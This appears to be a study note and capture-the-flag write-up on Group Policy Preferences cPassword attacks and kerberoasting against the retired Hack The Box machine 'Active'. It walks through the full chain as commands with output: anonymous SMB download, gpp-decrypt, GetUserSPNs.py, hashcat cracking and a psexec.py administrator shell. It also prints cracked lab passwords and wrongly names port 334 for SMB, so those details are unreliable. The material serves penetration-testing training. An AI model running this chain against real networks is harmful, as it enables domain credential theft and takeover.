

# GPP / cPassword Attacks Overview - MS14-025

- GPP will keep passwords in an XML file
- Works with smb
- If we find a 334 open we can try to login anonymously
  *Example from HTB - Active - Retired Machine*
- Tips: `prompt off` (will not prompt when dl file) and `recurse on` (will list everything)
    ```
    ┌──(kali㉿kali)-[~]
    └─$ smbclient \\\\10.10.10.100\\Replication
    Enter WORKGROUP\kali's password: 
    Anonymous login successful
    Try "help" to get a list of possible commands.
    smb: \> dir
      .                                   D        0  Sat Jul 21 06:37:44 2018
      ..                                  D        0  Sat Jul 21 06:37:44 2018
      active.htb                          D        0  Sat Jul 21 06:37:44 2018

                    5217023 blocks of size 4096. 260455 blocks available
    smb: \> prompt off
    smb: \> 
    ```
- We can get all the file using `mget *`
- We are interested in the group.xml file which has been downloaded in `active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/`  
  
- We can just copy cpassword and crackit using gpp-decrypt: ` gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`
  And we get the password: `GPPstillStandingStrong2k18`

## HTB - Active - privesc

- The password obtain with gpp only gave us user. To root the machine we use kerberoasting again:
  ```
  ┌──(kali㉿kali)-[~]
  └─$ GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
  /usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

  ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet      LastLogon           
  --------------------  -------------  --------------------------------------------------------  -------------------  -------------------
  active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40  2022-02-11 16:21:53 

  $krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$50b[STRIPPED]1
  ```

- We can then crack the password with hashcat

  ```
  ┌──(root💀kali)-[~/active-directory]
  └─# hashcat -m 13100 hashkerb.txt /usr/share/wordlists/rockyou.txt -O
  [STRIPPED]
  $krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~4[STRIPPED]1:Ticketmaster1968
  ```
- And finally get shell using psexec.py (Impacket)
  ```
  ┌──(root💀kali)-[~/active-directory]
  └─# psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100  
  ```

## GPP - Resources

- [Group Policy Pwnage](https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/)
